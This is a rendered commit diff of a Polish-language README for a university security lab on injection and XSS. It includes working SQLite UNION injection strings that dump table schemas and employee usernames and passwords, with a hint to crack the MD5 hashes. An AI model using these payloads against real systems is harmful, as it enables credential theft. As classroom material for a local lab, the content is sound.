

Before and after one commit to jurbanska/BAIiM_project, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -2,12 +2,15 @@
 Command Injection, Code Injection i Cross-Site Scripting
 
 ## Wymagania
+* Git (git clone)
 * Node.js
-* Git (git clone)
+* Python 3.10 (lub nowszy)
+* Docker
+* Docker-compose
 
 ## Wstęp
 * Sklonuj repozytorium (git clone)
-* Zainstaluj pakiety Nodel.js zdefiniowane w `package.json` z pomocą poniższej komendy:
+* Zainstaluj pakiety Node.js zdefiniowane w `package.json` z pomocą poniższej komendy:
 ```
 npm install
 ```
@@ -52,26 +55,45 @@ node evil-server.js
 * Możemy zmienić ją tak, aby `val` trakowane było jako tekst. W tym celu dodaj poniższy kod na końcu funkcji "showQueryAndResults".
 ```
 var queryTextEl = document.querySelector('#results pre');
-	queryTextEl.textContent = q;
+	queryTextEl.textContent = val;
 ```
 * zastanów się, jaki ma to wpływ
 
 ## Zadanie 2
-Poniżej znajduje się instrukcja dotycząca używania poleceń SQL dla ataków typu injection w bazie danych SQLite (screen z uzywanej bazy danych znajduje się w plikach):
+Poniżej znajduje się instrukcja dotycząca używania poleceń SQL dla ataków typu injection w bazie danych SQLite (screen tabeli dostępnych produktów znajduje się w folderze Zadanie-2):
 * Sprawdź, czy atak injection może zadziałać, wpisując następujące polecenie (`sqlite_master` to domyślna tabela w bazie danych SQLite, która przechowuje informacje o każdej tabeli w bazie danych):
 ```
-juice' UNION SELECT 1,2,3 from sqlite_master WHERE type="table"; --
+woda' UNION SELECT 1,2,3 from sqlite_master WHERE type="table"; --
 ```
 * Uzyskaj nazwy tabel z tabeli głównej (polecenie SQL zwraca informacje o tabeli):
 ```
-juice' UNION SELECT name,sql,3 from sqlite_master WHERE type="table"; --
+woda' UNION SELECT name,sql,3 from sqlite_master WHERE type="table"; --
 ```
 `name` i `sql` to kolumny w tabeli `sqlite_master`. `name` zwraca nazwę tabeli, a `sql` zwraca informacje SQL dotyczące tabeli (np. kolumny).
 * Uzyskaj informacje z dwóch kolumn i utwórz trzecią kolumnę:
 ```
-juice' UNION SELECT username,password,3 from employees;--
+woda' UNION SELECT username,password,3 from employees;--
  ```
 * Zwróć uwagę, że w kolumnie `password` pojawia się ciąg znaków. Zastanów się co możesz z nim zrobić. (podpowiedź: md5).
+
+Przeanalizuj powyższe polecenia i zastanów się skąd wynikają poszczególne ich elementy.
+
+Dlaczego atak nie powiedzie się podając tylko złośliwe zapytanie SQL?
+
+## Zadanie 3
+Twoim ostatnim zadaniem jest samodzielne dokonanie serii ataków XSS. Wyzwanie składa się z 6 poziomów, w ramach których należy ominąć zaimplementowane zabezpieczenia.
+
+
+W celu uruchomienia serwera wykonaj poniższe kroki:
+* Zainstaluj program [docker](https://docs.docker.com/get-docker/) oraz [docker-compose](https://docs.docker.com/compose/install/).
+* Przejdź do katalogu Zadanie-3 (folder zawierający plik docker-compose.yml)
+* Wykonaj polecenie `sudo docker-compose up`
+* Przejdź do wyzwań dostępnych pod adresem: http://localhost:9003
+
+
+Jeśli podczas wykonywania polecenia `docker-compose up` napotkasz problemy upewnij się, że usługa docker'a została uruchomiona. W przeciwnym wypadku wykonaj polecenie `sudo systemctl start docker`.
+
+Jeżeli problem nadal występuje, należy całkowicie zresetować pracę usługi poprzez polecenie `sudo systemctl restart docker`.
 
 
 ## Bibliografia
````
